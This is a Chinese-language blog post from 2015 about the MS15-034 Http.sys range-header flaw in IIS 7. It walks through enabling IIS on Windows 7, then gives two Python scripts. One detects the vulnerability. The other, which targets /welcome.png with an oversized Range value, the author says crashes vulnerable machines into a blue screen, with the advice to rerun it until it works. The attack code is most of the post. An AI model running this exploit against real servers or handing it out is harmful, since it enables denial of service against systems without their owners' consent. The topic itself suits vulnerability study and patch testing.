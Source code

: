 ```yaml
---
title: "检测ms15-034的微软的iis漏洞"
date: 2015-04-19T00:00:00+0800
lastmod: 2015-04-19T00:00:00+0800
draft: false
keywords: ["ms15-034","iis漏洞","微软"]
tags:  ["ms15-034","iis漏洞","微软"]
description: "本文主要教大家怎么检测iis7的ms15-034漏洞"
categories: ["漏洞分析与收集"]
tags: ["ms15-034","iis漏洞","微软"]
---
```


## win 7 打开iis 7服务

进入win 7的控制面板，选择打开或关闭Windows功能,如下图:

![1]({{IMAGE_PATH}}/iis7漏洞/1.jpg)

出现windows功能选项，选择下面的选项就会开启iis7服务:

![2]({{IMAGE_PATH}}/iis7漏洞/2.jpg)

开启成功后，直接在开始里面输入iis,打开internet信息服务(IIS)管理器,如下图可以看到default网站已经启动，直接访问网址就可以得到iis7经典界面了！

![3]({{IMAGE_PATH}}/iis7漏洞/3.jpg)
![4]({{IMAGE_PATH}}/iis7漏洞/4.png)

## 攻击代码

用下面代码检测是否存在漏洞

```
⇒  python vul.py 172.16.69.67
[*] Audit Started
[!!] Looks VULN
```

```python
'''
___.                                   .___ __                         __  
\_ |__   ____ ___.__. ____   ____    __| _//  |________ __ __  _______/  |_
| __ \_/ __ <   |  |/  _ \ /    \ / __ |\  __\_  __ \ |  \/  ___/\  __\
| \_\ \ ___/\___  (  <_> )   |  \/ /_/ | |  |  |  | \/  |  /\___ \ |  |  
|___  /\___  > ____|\____/|___|  /\____ | |__|  |__|  |____//____  > |__|  
    \/     \/\/                \/      \/                        \/        
                                                           MS15-034 Checker
 
Danger! This script has not been properly qa'd and will probably fail in terrible ways.
It is based off a change in HTTP!UlpParseRange in which an error code is returned as a
result of a call to HTTP!RtlULongLongAdd when evaluating the upper and lower range of
an HTTP range request.
-BF
 
 
8a8b2112 56              push    esi
8a8b2113 6a00            push    0
8a8b2115 2bc7            sub     eax,edi
8a8b2117 6a01            push    1
8a8b2119 1bca            sbb     ecx,edx
8a8b211b 51              push    ecx
8a8b211c 50              push    eax
8a8b211d e8bf69fbff      call    HTTP!RtlULongLongAdd (8a868ae1) ; here
 
'''
import socket
import random
import sys
 
ipAddr=sys.argv[1]
hexAllFfff = "18446744073709551615"
 
req1 = "GET / HTTP/1.0\r\n\r\n"
req = "GET / HTTP/1.1\r\nHost: stuff\r\nRange: bytes=0-" + hexAllFfff + "\r\n\r\n"
 
print "[*] Audit Started"
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((ipAddr, 80))
client_socket.send(req1)
boringResp = client_socket.recv(1024)
if "Microsoft" not in boringResp:
    print "[*] Not IIS"
client_socket.close()
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((ipAddr, 80))
client_socket.send(req)
goodResp = client_socket.recv(1024)
if "Requested Range Not Satisfiable" in goodResp:
    print "[!!] Looks VULN"
elif " The request has an invalid header name" in goodResp:
    print "[*] Looks Patched"
else:
    print "[*] Unexpected response, cannot discern patch status"

```


用下面的代码可以将存在漏洞的机子蓝屏，不过有时会出现`socket.error: [Errno 54] Connection reset by peer`错误,没事多运行几次就成功了。

```python
import socket
import random
import sys
 
ipAddr = sys.argv[1]
port = 80
hexAllFfff  = "18446744073709551615"
 
print "[*] Audit Started"
req1 = "GET / HTTP/1.0\r\n\r\n"
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((ipAddr, 80))
client_socket.send(req1)
boringResp = client_socket.recv(1024)
if "Microsoft" not in boringResp:
    print "[*] Not IIS"
    exit(0)
client_socket.close()
 
req = "GET /welcome.png HTTP/1.1\r\nHost: stuff\r\nRange: bytes=2-" + hexAllFfff + "\r\n\r\n"
 
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((ipAddr, 80))
client_socket.send(req)
goodResp = client_socket.recv(1024)
if "Requested Range Not Satisfiable" in goodResp:
    print "[!!] Looks VULN"
elif " The request has an invalid header name" in goodResp:
    print "[*] Looks Patched"
else:
    print "[*] Unexpected response, cannot discern patch status"
```
运行上面的代码

```
python vul.py 172.16.69.67
```
成功后的留念,这两段代码的主要区别在于**bytes后面的数字**:

![5]({{IMAGE_PATH}}/iis7漏洞/5.jpg)

今天还学会了新招了,要找漏洞相关的信息可以到twitter上直接搜索ms15-034就可以搜到很多大牛写的分析文档了。

### 参考
1. [IIS服务器漏洞（MS15-034）威胁分析](http://security.alibaba.com/blog/blog.htm?spm=0.0.0.0.lOZTaW&id=16)
2. [IIS 系列 Http.sys 处理 Range 整数溢出漏洞 应急分析报告](http://blog.knownsec.com/2015/04/iis_cve-2015-1635/)
3. [MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞分析](http://blogs.360.cn/blog/cve_2015_6135_http_rce_analysis/)
4. [The Delicate Art of Remote Checks – A Glance Into MS15-034](http://blog.beyondtrust.com/the-delicate-art-of-remote-checks-a-glance-into-ms15-034)
5. [An Analysis Of MS15-034](http://www.securitysift.com/an-analysis-of-ms15-034/)
